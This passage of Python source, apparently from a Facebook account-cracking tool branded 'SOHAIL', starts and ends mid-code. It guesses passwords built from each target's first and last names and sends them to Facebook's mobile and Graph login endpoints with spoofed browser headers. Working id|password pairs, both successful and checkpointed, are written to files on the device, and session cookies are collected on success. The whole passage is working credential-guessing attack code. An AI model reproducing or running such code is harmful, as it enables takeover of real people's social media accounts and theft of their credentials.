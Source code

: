                                         'x-fb-connection-quality':'EXCELLENT',
                                        'x-fb-friendly-name':'authenticate',
                                        'accept-encoding':'gzip, deflate',
                                        'x-fb-http-engine':     'Liger'}
                                url = 'https://b-graph.facebook.com/auth/login?include_headers=false&decode_body_json=false&streamable_json_response=true'
                                po = requests.post(url,data=data,headers=head,allow_redirects=False).text
                                q = json.loads(po)
                                if 'session_key' in q:
                                        print(f'\r\r\033[1;32m [SOHAIL-OK] '+ids+' | '+pas+'\033[1;97m')
                                        open(f'/sdcard/SOHAIL-OK.txt','a').write(ids+'|'+pas+'\n')
                                        #cek_apk(session,coki)
                                        oks.append(ids)
                                        break
                                elif 'www.facebook.com' in q['error']['message']:
                                        if 'y' in pcp:
                                                print(f'\r\r\x1b[38;5;126m [SOHAIL-CP] '+ids+' | '+pas+'\033[1;97m')
                                                open(f'/sdcard/SOHAIL-CP.txt', 'a').write(ids+'|'+pas+'\n')
                                                cps.append(ids)
                                                break
                                        else:
                                                open(f'/sdcard/SOHAIL-CP.txt','a').write(ids+'|'+pas+'\n')
                                                break
                                else:
                                        continue
                        loop+=1
                except requests.exceptions.ConnectionError:
                        time.sleep(10)
                except Exception as e:
                        pass
def ffb7(ids,names,passlist):
        global loop,oks,cps
        sys.stdout.write(f'\r\r\033[1;37m [SOHAIL1x1-VIP] %s|\033[1;32mOK:-%s \033[1;37m'%(loop,len(oks)));sys.stdout.flush()
        session = requests.Session()
        try:
                first = names.split(f' ')[0]
                try:
                        last = names.split(f' ')[1]
                except:
                        last = 'Ahmed'
                ps = first.lower()
                ps2 = last.lower()
                for fikr in passlist:
                        pas = fikr.replace(f'First',first).replace(f'Last',last).replace(f'first',ps).replace(f'last',ps2)
                        ua=random.choice(ugen)
                        head = {'Host': 'mobile.facebook.com', 'viewport-width': '980', 'sec-ch-ua': '" Not A;Brand";v="99", "Chromium";v="100", "Google Chrome";v="100"', 'sec-ch-ua-mobile': '?1', 'sec-ch-ua-platform':'"Android"', 'sec-ch-prefers-color-scheme': 'light', 'dnt': '1', 'upgrade-insecure-requests': '1', 'user-agent': ua, 'accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*[inserted by cython to avoid comment closer]/[inserted by cython to avoid comment start]*;q=0.8,application/signed-exchange;v=b3;q=0.9', 'sec-fetch-site': 'none', 'sec-fetch-mode': 'navigate', 'sec-fetch-user': '?1', 'sec-fetch-dest': 'document', 'accept-encoding': 'gzip, deflate, br', 'accept-language': 'en-US,en;q=0.9'}
                        getlog = session.get(f'https://mobile.facebook.com/login/device-based/password/?uid={ids}&flow=login_no_pin&refsrc=deprecated&_rdr')
                        idpass ={"lsd":re.search(f'name="lsd" value="(.*?)"', str(getlog.text)).group(1),"jazoest":re.search(f'name="jazoest" value="(.*?)"', str(getlog.text)).group(1),"uid":ids,"next":"https://mbasic.facebook.com/login/save-device/","flow":"login_no_pin","pass":pas,}
                        complete = session.post(f'https://mobile.facebook.com/login/device-based/validate-password/?shbl=0',data=idpass,allow_redirects=False,headers=head)
                        Shahin=session.cookies.get_dict().keys()
                        if "c_user" in Shahin:
                                coki=session.cookies.get_dict()